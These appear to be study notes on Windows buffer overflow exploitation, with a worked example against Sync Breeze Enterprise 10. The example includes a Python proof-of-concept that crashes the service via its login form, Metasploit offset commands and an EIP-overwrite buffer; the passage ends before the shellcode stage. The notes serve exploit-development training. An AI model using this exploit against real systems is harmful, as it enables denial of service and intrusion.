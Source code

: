 ## Windows Summary
1. Find input fields to the program
Use a script to recreate packet and spam variable input
2. Fuzz (give long strings to) any inputs to create a crash/error, locating a vulnerable input
3. Overflow to EIP (instruction pointer), verifiable using a debugger on the program process
4. Find space for shellcode ie. overflow into as much memory space as possible
5. Find a jump instruction to a register in the overflow space eg. JMP ESP
6. Point EIP to that instruction address (must be in a static location)
7. Overflow shellcode into the pointed to space. 

NOP Sleds

### Limited ESP space? 
Use jump code to access in ESP space to get to another overflowable register space

### DEP (Data Execution Prevention)
Hardware and software memory checks to prevent malicious code. Raises an exception when loads from data pages are attempted.

### ASLR (Address Space Layout Randomization)
Randomizes base addresses of programs and DLLs every time the OS is booted.

### CFG (Control Flow Guard)
Microsoft's version of CFI (Control Flow Integrity), validates indirect code branches (like a call to a register) to prevent overwrite of function pointers

# Sync Breeze Example

### Sync Breeze Vulnerability
A buffer overflow was found in the username field of the HTTP POST login request
**Pre-Authentication Buffer Overflow**

Methods for discovering buffer overflow
1. Source code review (if available)
2. Reverse engineering
3. Fuzzing

Python proof of concept:
```
#!/usr/bin/python
import socket
import sys

try:
  server = sys.argv[1]
  port = 80
  size = 800
  inputBuffer = b"A" * size
  content = b"username=" + inputBuffer + b"&password=A"

  buffer = b"POST /login HTTP/1.1\r\n"
  buffer += b"Host: " + server.encode() + b"\r\n"
  buffer += b"User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
  buffer += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
  buffer += b"Accept-Language: en-US,en;q=0.5\r\n"
  buffer += b"Referer: http://10.11.0.22/login\r\n"
  buffer += b"Connection: close\r\n"
  buffer += b"Content-Type: application/x-www-form-urlencoded\r\n"
  buffer += b"Content-Length: "+ str(len(content)).encode() + b"\r\n"
  buffer += b"\r\n"
  buffer += content

  print("Sending evil buffer...")
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((server, port))
  s.send(buffer)
  s.close()
  
  print("Done!")
  
except socket.error:
  print("Could not connect!")
```

### Install Sync Breeze Enterprise 10
- Run from installer
- Options -> Sever -> Enable web access on port 80
- Attach WinDbg (run as admin)
- Keep services.msc up to restart the service when it dies
- `g` to continue service

### Crash Sync Breeze
- Run the Python POC from a VPN connected device
- Inspect the memory and error as an "Access Violation"
- This proves that data has overflowed into the EIP

### Control EIP
- Binary tree analysis to isolate EIP; 400 A's, 400 B's. EIP is written with B's, send 400 A's, 200 B's, 200 C's, etc.
- Or, send a long, non-repeating string of 4 byte chunks, `msf-pattern_create -l 800`
 [[Metasploit]] -> `msf-pattern_offset -l 800 -q 42306142` > `Exact match of offset 780`
 - Edit script buffer with:
 ```
 filler = b"A" * 780
 eip = b"B" * 4
 buffer = b"C" * 16
 overflow = filler + eip + buffer
```

### Redirect Application Flow
- generate shellcode to be included in the buffer
- ESP points to our buffer of C's at crash time, put it there
-  